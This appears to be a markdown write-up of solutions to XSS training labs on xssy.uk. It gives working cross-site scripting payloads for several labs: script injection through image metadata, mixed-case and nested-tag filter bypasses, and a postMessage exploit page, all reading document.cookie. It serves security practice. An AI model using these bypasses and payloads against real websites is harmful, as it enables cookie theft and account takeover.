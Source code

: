 
### Lab 637: Sniffing Danger
- **URL Lab**: https://xssy.uk/lab/637
- **Status**: Not solved yet
- **Description**: Tried change filename, modified filetype, content-type but nothing worked

---

### Lab 57: Metadata XSS
- **URL Lab**: https://xssy.uk/lab/57
- **Payload**: Modify image metadata using exiftool. In section model, inject XSS script:
```html
<script>alert(document.cookie)</script>
```
- **Description**: Upload this malicious image XSS to lab. When image uploaded, the lab will pull model name to UI & XSS payload in model metadata triggered

---

### Lab 60: HTML Filter Event Handler [Bypass via Mixed Case Character]
- **URL Lab**: https://xssy.uk/lab/60
- **Payload**: 
```html
<ScRipt>alert(document.cookie)</ScRIpT>
```
- **Full URL**: 
```
https://vtjubozm.xssy.uk/target.ftl?name=%3CScRipt%3Ealert%28document.cookie%29%3C%2FScRIpT%3E
```

---

### Lab 168: HTML Filter - Weak Regex
- **URL Lab**: https://xssy.uk/lab/168
- **Payload (Trojan Horse Technique)**: 
```html
<sc<script>ript>alert(document.cookie)</script>
```
- **Full URL**: 
```
https://fdlv7w2i.xssy.uk/target.ftl?name=%3Csc%3Cscript%3Eript%3Ealert%28document.cookie%29%3C%2Fscript%3E
```
- **Description**: Lab required zero click XSS. First attempt: `</p><a href=javascript:alert(document.cookie)>click` (one-click XSS only). Finally found the technique using trojan horse technique.

---

### Lab 58: PostMessage XSS
- **URL Lab**: https://xssy.uk/lab/58
- **Payload**: 
```html
<body onload="exploit()">   
    <script>
        function exploit() {
            var open = window.open("https://rfm45gxl.xssy.uk/", "exploit");
            window.setTimeout( () => {
                open.postMessage("<img src=x onerror=alert(document.cookie)>", '*')
            }, 1000)
        }
    </script>
    <button onclick="exploit()">exploit</button>
    <iframe name="exploit" />
</body>
```